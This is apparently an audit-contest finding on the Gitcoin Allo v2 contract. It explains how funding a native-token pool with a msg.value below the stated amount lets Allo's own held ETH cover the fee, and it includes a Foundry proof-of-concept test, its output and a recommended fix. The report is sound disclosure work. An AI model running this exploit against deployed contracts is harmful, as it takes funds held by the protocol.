 Digital Berry Horse

medium

# Allo contract's funds can be used for paying funding fees
Allo contract's funds can be used for paying funding fees.
## Vulnerability Detail
Allo contract can hold funds in two ways: 

1.  A _pool admin_ mistakenly sends funds when using _registerRecipient_, which will be locked in Allo, since the msg.value is not used when calling the strategy's _registerRecipient_.
2. Funds are sent as a donations, as stated in the docs: _Funds sent to Allo.sol are considered a gift to the Allo protocol team_

Once Allo contract holds some funds, a user can fund a pool that uses the native token with a lower _msg.value_ than _amount_ parameter. When paying the _feeAmount_ and _amountAfterFee_ for funding the pool the _Transfer_ library will be used. The check _msg.value < amount_ will pass because the check is done separately for both payments. This will result in funds being sent from Allo in order to fund the strategy contract, since the _msg.value_ will not be sufficient. PoC:

          function test_fundPoolAttacker() public {
            uint256 percentFee = 1e17;
    
            allo().updatePercentFee(percentFee); // 10%
            address attacker = makeAddr("Attacker");
    
            vm.deal(pool_admin(), 100 * 1e18);
            vm.deal(attacker, 100 * 1e18);
    
            console.log("***** STARTING BALANCES *****");
            console.log("Pool admin ETH balance: %d", address(pool_admin()).balance);
            console.log("Attacker ETH balance: %d", attacker.balance);
            console.log("Allo contract ETH balance: %d", address(allo()).balance);
            console.log("Treasury ETH balance: %d", allo().getTreasury().balance); 
            console.log("*****************************");
    
            vm.prank(pool_admin());
            uint256 poolId = allo().createPoolWithCustomStrategy(
                poolProfile_id(), strategy, "0x", NATIVE, 0, metadata, pool_managers()
            );
            vm.prank(pool_admin());
            // Pool admin mistakenly sends ETH to Allo contract
            // Or funds are sent as a donations, as stated in the docs: 
            // "Funds sent to Allo.sol are considered a gift to the Allo protocol team"
            allo().registerRecipient{value: 100 * 1e18}(poolId, bytes(""));
    
            vm.prank(attacker); // Sends 90 in msg.value, but 100 in the amount parameter
            allo().fundPool{value: 90 * 1e18}(poolId, 100 * 1e18);
    
            console.log("***** FINAL BALANCES *****");
            console.log("Pool admin ETH balance: %d", address(pool_admin()).balance);
            console.log("Attacker ETH balance: %d", attacker.balance);
            console.log("Allo contract ETH balance: %d", address(allo()).balance);
            console.log("Treasury ETH balance: %d", allo().getTreasury().balance);
            console.log("Strategy contract ETH balance: %d",address(strategy).balance); // Receives the whole 90 sent in msg.value
            console.log("*****************************");
            // pool_admin is not able to get funds back
        }

Output:
  ***** STARTING BALANCES *****
  Pool admin ETH balance: 100000000000000000000
  Attacker ETH balance: 100000000000000000000
  Allo contract ETH balance: 0
  Treasury ETH balance: 0
  *****************************
  ***** FINAL BALANCES *****
  Pool admin ETH balance: 0
  Attacker ETH balance: 10000000000000000000
  Allo contract ETH balance: 90000000000000000000
  Treasury ETH balance: 10000000000000000000
  Strategy contract ETH balance: 90000000000000000000
  *****************************
## Impact
Mistakenly sent funds and donation funds can be used for paying the fees of funding a pool that uses the native token.
## Code Snippet
Funding the pool:
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/core/Allo.sol#L496-L520
Transfer library function used for making the payments:
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/core/libraries/Transfer.sol#L70-L81
Documentation of funding a pool:
https://docs.allo.gitcoin.co/allo/flow-of-funds#funding-a-pool
Register recipient function which is payable, but the _msg.value_ will be sent to Allo instead of the strategy:
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/core/Allo.sol#L301-L304
## Tool used

Manual Review and Foundry

## Recommendation
Even if sending funds mistakenly to the contract when using _registerRecipient()_ may be users mistake, I would make this function non payable. Also, when funding a pool, there must be a check that _msg.value > amount (parameter)_ when using native token in order to prevent Allo from paying instead of the user.